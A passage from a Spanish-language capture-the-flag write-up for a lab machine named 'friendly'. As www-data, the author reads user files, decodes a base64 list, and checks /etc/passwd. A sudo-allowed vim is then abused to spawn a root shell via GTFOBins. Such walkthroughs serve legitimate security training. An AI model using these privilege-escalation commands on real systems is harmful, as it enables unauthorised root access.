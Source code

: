 ~~~bash
-r--r--r-- 1 RiJaba1 RiJaba1   41 Feb 21 07:54 ideas.txt
www-data@friendly:/home/RiJaba1$ 
~~~

Podemos ver que el .bash_history es un enlace al agujero negro de Linux, así que si teníamos intención de revisar algún leak, por ahí no vamos bien jeje.

Respecto a los 3 directorios, todos tienen un fichero, vamos a leerlos:

~~~
www-data@friendly:/home/RiJaba1$ find -type f | grep -v user.txt | xargs cat
How did you find me?
U2hlbGxEcmVkZAp4ZXJvc2VjCnNNTApib3lyYXMyMDAK
What're you reading? Have you hacked me?
~~~

El fichero *targets.txt* parece estar codificado, vamos a ponerlo en claro:

~~~
www-data@friendly:/home/RiJaba1$ base64 -d < Private/targets.txt  
ShellDredd
xerosec
sML
boyras200
~~~

Pues vemos otro pequeño guiño de Rijaba1 a otros creadores de la comunidad 😉.

Tras esto, ahora sí, vamos a por la flag de *root*.


## Escalada de privilegios

Como siempre empezaremos viendo la lista de comandos que podemos ejecutar como otro usuario. Me gustaría puntualizar que revisar esto siendo *www-data* no debería tener sentido en un entorno real porque dicho usuario no tiene shell. Es más, incluso en esta máquina no lo tiene:

~~~
www-data@friendly:/home/RiJaba1$ grep www /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
~~~
~~~
www-data@friendly:/home/RiJaba1$ sudo -l
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
~~~

Con esto ya tenemos la escalada, pues desde vim podemos ejecutar una shell con el modo *ex*. Vamos a ayudarnos como siempre de <https://gtfobins.github.io/gtfobins/vim/#sudo> para ir a tiro fijo. De esta forma solo deberemos introducir `sudo vim -c ':!/bin/bash'` y seremos *root*.

~~~
root@friendly:/home/RiJaba1# cd /root
root@friendly:~# ls
interfaces.sh  root.txt
root@friendly:~# cat root.txt
Not yet! Find root.txt.
~~~
